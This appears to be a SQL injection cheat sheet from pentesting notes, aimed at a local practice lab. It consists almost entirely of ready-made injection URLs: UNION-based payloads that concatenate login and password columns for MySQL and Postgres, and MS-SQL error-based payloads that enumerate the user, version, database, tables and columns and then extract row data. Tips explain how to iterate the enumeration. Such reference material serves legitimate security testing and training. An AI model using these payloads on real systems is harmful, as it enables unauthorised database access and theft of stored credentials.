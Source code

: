 #### Concatenate

Example:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login from users;`
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, password from users;`

In one query:

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`

#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

#### Columns within a table

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> Remember to change **dbname** and **tablename** accordingly with the given situation.
> 
> After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

#### Actual data

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`
